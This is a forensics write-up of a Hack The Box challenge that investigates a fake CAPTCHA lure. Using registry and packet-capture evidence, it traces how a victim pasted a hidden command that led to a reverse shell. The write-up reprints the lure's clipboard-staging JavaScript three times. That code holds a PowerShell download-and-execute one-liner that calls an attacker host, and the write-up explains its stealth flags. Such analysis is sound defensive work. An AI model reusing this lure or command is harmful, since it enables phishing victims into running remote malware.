

# Investigating Malicious CAPTCHAs with Pikaptcha on HTB


----

## Box Info:

**About**

Happy Grunwald contacted the sysadmin, Alonzo, because of issues he had downloading the latest version of Microsoft Office. He had received an email saying he needed to update and clicked the link to do so. He reported that he visited the website and solved a captcha, but no Office download page appeared. Alonzo, who himself was bombarded with phishing attacks last year and was now aware of attacker tactics, immediately notified the security team to isolate the machine as he suspected an attack. You are provided with network traffic and endpoint artifacts to answer questions about what happened.


----

# Investigation and Flag Tasks:

After unzipping, we are presented with various files: a network capture and a copy of some important files from the `C` drive.


## Task 1:

   **It is crucial to understand any payloads executed on the system for initial access. Analyzing the registry hive for user happy grunwald, what is the full command that was run to download and execute the stager?**

   *   We can find this by navigating through the C drive to the `happy grunwald` user and parsing the `NTUSER.DAT` file using a tool like `Registry Explorer` or `Reg Ripper`.
   *   For this, I used Reg Ripper. The downside with this tool is you can't include the additional transaction logs such as LOG1 or LOG2 without additonal steps.

   

   
   *   We can then filter through the results by searching for "powershell."

   
   *   We can clearly find a suspicious-looking command that downloads a PowerShell script.

   

## Task 2:

   **At what time in UTC did the malicious payload execute?**

   *   We can find this under the runMRU (most recently used) section we saw above. We can also see a separate PowerShell execution that also lines up at the same date and time.

   
   


## Task 3:

 **The payload which was executed initially downloaded a PowerShell script and executed it in memory. What is the SHA256 hash of the script?**

   *   To find this, we need to investigate the pcap file.
   *   We can start by opening up the capture and searching for the IP we saw in the above PowerShell command, `43.205.115.44`, where the script was downloaded from.

   
   *   Scrolling through, we can find the GET request for the `office2024install.ps1` file.

   
   *   We can then export this object using `File` -> `Export Object` -> `HTTP` and searching for the file.

   
   *   We can then save it and get the hash from the downloaded file.

   

   > The `sha256` hash isn't shown here, but you can use these steps to find it :)

## Task 4:

 **To which port did the reverse shell connect?**
   *   We can find this by looking further through the pcap file.

   
   *   We can find a series of back-and-forth TCP requests, and if we investigate further, we can see that the attacker IP is sending various commands over the reverse shell connection.
   *   whoami:

   
   *   ifconfig:

   
   *   Installing Bloodhound:

   

## Task 5:

 **For how many seconds was the reverse shell connection established between C2 and the victim's workstation?**

   *   To figure this out, we can look at the timestamps in the capture and do some simple math. We can see that the first connection on port `6969` was made around `5:07 UTC`.

   
   *   We can then look at the end time of the transmission and do some simple subtraction.

   
   *   I switched my timestamp settings from [time and date] to [seconds since the start of capture] and did the math this way.

   
   *   549 - 146 = 403.

## Task 6:

 **The attacker hosted a malicious Captcha to lure in users. What is the name of the function which contains the malicious payload to be pasted into the victim's clipboard?**

   *   To find this, we will have to find the malicious captcha in the HTTP results. Let's filter for the HTTP protocol with the same IP filter from before.

   
   *   Now we can follow the HTTP stream.

   
   *   Here we can see some functions related to the captcha.

   
   *   Towards the end of the file, we can find the following:

   

   ```additonal
   function setClipboardCopyData(textToCopy){
      const tempTextArea = document.createElement("textarea");
      tempTextArea.value = textToCopy;
      document.body.append(tempTextArea);
      tempTextArea.select();
      document.execCommand("copy");
      document.body.removeChild(tempTextArea);
   }

   // Stage the string to be copied to the victims clipboard
   function stageClipboard(commandToRun, verification_id){

      // The string copied is the powershell command to download the malcious ps file.
      const revershell=`powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"`
      const suffix = " # "
      const ploy = "... ''I am not a robot - reCAPTCHA Verification ID: "
      const end = "''"
      const textToCopy = revershell

      setClipboardCopyData(textToCopy);
   }
   ```


----

## Additional Analysis:

We can take the extracted html from above and paste this into a static html file and observe what the fake captcha looks like to the victim.


* If we follow the steps above we can see that we would be pasting the malicous command into the windows run command box.

* `Windows-key + R` - opens run command box.


* `Ctrl + V` will paste the malcious script that was copied to our clip board by the malicous function.

 ```
 // Stage the string to be copied to the victims clipboard
   function stageClipboard(commandToRun, verification_id){

      // The string copied is the powershell command to download the malcious ps file.
      const revershell=`powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"`
      const suffix = " # "
      const ploy = "... ''I am not a robot - reCAPTCHA Verification ID: "
      const end = "''"
      const textToCopy = revershell

      setClipboardCopyData(textToCopy);
   }
 ```

 


 Walking through the code we can determine that the malicous script is copied to the vicitms clipboard when they click the checkbox on the malicous CAPTCHA.

* On the page load call the `addCaptchaListeners` function:


* This will run the `runClickedCheckboxEffects` function.


* Which will then run the `showVerifyWindow` function.


* Which will then run the clipboard stager.

 ```
 // Stage the string to be copied to the victims clipboard
   function stageClipboard(commandToRun, verification_id){

      // The string copied is the powershell command to download the malcious ps file.
      const revershell=`powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"`
      const suffix = " # "
      const ploy = "... ''I am not a robot - reCAPTCHA Verification ID: "
      const end = "''"
      const textToCopy = revershell

      setClipboardCopyData(textToCopy);
   }
 ```


The malcious command uses the following flags:

` powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')" `

```
From ChatGPT:


-NoP (No Profile):

    This flag tells PowerShell to not load the user profile. By default, when PowerShell starts, it loads a profile script (like Microsoft.PowerShell_profile.ps1), which can contain user-specific configurations or settings. This flag prevents that from happening, which can help in avoiding detection or tracing.

-NonI (Non-Interactive):

    This flag tells PowerShell to not open an interactive session. It ensures the script runs in a non-interactive mode, which is useful when executing scripts remotely or through automated processes.

-W Hidden (Window Hidden):

    This flag tells PowerShell to run without displaying a window. The PowerShell process will run in the background, making it harder to detect visually, which is often used for stealthy operations (e.g., in malware or scripts you don't want the user to see).

-Exec Bypass (Execution Policy Bypass):

    PowerShell has an execution policy that determines what kind of scripts can run. The default policy usually restricts running unsigned scripts.

    -Exec Bypass overrides that execution policy, allowing the script to run even if it is not digitally signed, or if the policy would normally prevent it.

    Important: This is often used by malicious actors to bypass security restrictions on systems that have restricted PowerShell script execution.

-Command:

    This flag specifies the PowerShell command to run. The string following this is the actual script being executed.
```


Once the command is run the malicous powershell file will be downloaded and run.


Within the `office2024install.ps1` powershell script we can see that it is running a base64 encoded command using `powershell -e`.

 

If we decode the string we can get the following which reveals the reverse shell script:


 

 


We can see here that the attacker is setting up a reverse shell using port `6969` like we saw above in the packet capture. The attacker now has remote access to the victim's machine.


---- 

# Conclusion:

This HTB challenge was a fun exercise that closely mirrored real-world malicious CAPTCHA attacks, such as those detailed in these articles: 

* <https://thehackernews.com/2025/08/clickfix-malware-campaign-exploits.html> (Aug 2025).

* <https://thehackernews.com/2025/03/microsoft-warns-of-clickfix-phishing.html> (Mar 2025).
